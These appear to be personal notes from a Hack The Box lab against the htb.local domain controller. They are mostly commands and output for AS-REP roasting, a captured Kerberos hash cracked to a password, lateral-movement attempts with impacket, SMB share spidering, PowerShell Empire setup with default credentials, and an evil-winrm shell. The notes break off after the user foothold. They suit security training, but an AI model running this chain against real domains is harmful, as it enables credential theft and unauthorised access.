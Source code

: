 - Start responder 
```
sudo responder -I tun0
```
- Create wordlist from usernames 
- check for no preauth users with get npusers from impacket
```
impacket-GetNPUsers -dc-ip 10.10.10.161 htb.local/ -usersfile users.txt -format hashcat -outputfile hashes.domain.txt
```
- Output
```
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:f1d92e8069100d3211632fa206366492$8fce52fb998ae5b9355991e862ea90534d371d025b36ad742360b7fff69d9105463067b15841c06058ef41986c87338ffd20397f441dbaa1fdb8d9e24a18bd9339fe35d9b33de372022a00a6590cdc597278af5f362cf1d0d70397e95a1c323542211329a5b4f1f1014cff3748a65d739b4c39ce47472524b3bab650437a7621dbbca97e851196669fa29368c6815db3c447cff039cdd24900fbc61cfb433b626285940e81763b296789ad0cf4bd357f80714d0970f970cc084d195f9c3ece012e15884b8ee235ed130d701247fc60d26bd9781b3a0ab981a17566dc05628a77381860bf9468
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
```
- Cracking svc-alfresco with mimikatz
```
hashcat -m 18200 hashes.domain.txt /usr/share/wordlists/rockyou.txt --force
```
- Cracked::: s3rvice
- trying psexec
```
impacket-psexec htb.local/svc-alfresco:s3rvice@htb.local
```
- showed shares none writable so it didn't work
- trying smbexec
```
impacket-smbexec htb.local/svc-alfresco:s3rvice@htb.local
```
- didn't work. Denied
- Trying wmiexec
```
impacket-wmiexec htb.local/svc-alfresco:s3rvice@htb.local
```
- Access denied. Moving on to enumerate smb
```
nxc smb -d htb.local -u svc-alfresco -p s3rvice --shares htb.local
```
- Found SYSVOL and NETLOGON are readable
- have command execution by adding -x whoami at the end of the nxc command. Going to try to get a shell with powershell-empire
```
sudo powershell-empire server
```
```
sudo powershell-empire client
```
- Get the empire.db file path from /usr/share/powershell-empire/empire/server/config.yaml
```
location: /var/lib/powershell-empire/server/data/empire.db
```
- Default login
```
username: empireadmin
password: password123
```
- generate the listener on http with an appropriate name
- false alarm we do not have execution through nxc smb -x
- enumerate shares with 
```
nxc smb 10.10.10.161 -d htb.local -u svc-alfresco -p s3rvice -M spider_plus
```
- View shares in /tmp/nxc_hosted/nxc_spider_plus
- Get the files with
```
nxc smb 10.10.10.10 -u 'user' -p 'pass' -M spider_plus -o DOWNLOAD_FLAG=True
```
- nothing valuable in the smb shares
- Need to try evil-winrm 
```
evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161
```
- got a shell
- got user
- 
